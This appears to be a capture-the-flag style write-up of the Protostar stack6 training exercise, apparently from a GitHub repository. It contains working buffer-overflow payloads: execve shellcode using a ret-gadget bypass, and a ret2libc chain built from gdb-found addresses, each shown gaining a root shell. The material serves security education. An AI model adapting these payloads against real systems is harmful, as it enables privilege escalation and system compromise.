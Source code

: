 There are three suggested methods for solving this problem, each of which is shown below.

# Return orientated programming:
Since the program restricts returning to the stack (exiting the program if the return address falls within the stack address range), return orientated programmming returns to a return instruction. Since the EIP is back at a return instruction again, it looks for a return address in the stack again. This return address will not be checked, so it can point to the stack.
```python
print("".join([chr(i)*4 for i in range(65, 85)]) + '\x08\x85\x04\x08'+'\xc0\xf7\xff\xbf'+'\x90'*36+'\x31\xc0\
x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')
```

```shell
(python /tmp/stack6.py; cat) | /opt/protostar/bin/stack6
whoami
root
```

# ret2libc:
Return to libc essentially eliminates the need for shellcode by using powerful functions already present in the binary due to libc. Since we are still on stack6, we can use the same padding as previously used ("".join([chr(i)\*4 for i in range(65, 85)])). To create a root shell, we have to call /bin/sh from stack6 (which executes as root) using the system function from libc. To find the address of system we can use gdb.

```shell
gdb stack6
(gdb) break main
(gdb) r
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

The hexadecimal address printed is the next portion of the exploit. Finally, the remainder of the stack must be constructed as it would be if system was called naturally. This means any 4 byte return address, followed by a 4 byte address pointing to the string "\bin\sh". Placing the string in the stack is hard, as NOP sleds would not work in this scenario. Instead, we can find an instance of /bin/sh in libc and simply point to that.

```shell
strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh
```

This number is not the absolute address of the string, but an offset from the beginning of the file libc. To find the address of where libc is stored, we can use GDB.

```shell
gdb stack6
(gdb) break main
(gdb) r
(gdb) info proc map
0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
```
The line that says libc with an offset of 0 is what we're interested in. The start address of this space is 0xb7e97000. Adding our string offset of 0x11f3bf, we get a final string address of 0xb7fb63bf. Incorporating all this, our exploit becomes:

```python
print("".join([chr(i)*4 for i in range(65,85)])+'\xb0\xff\xec\xb7'+'AAAA'+'\xbf\x63\xfb\xb7')
```

```shell
(python /tmp/stack6.py; cat) | /opt/protostar/bin/stack6
whoami
root
```

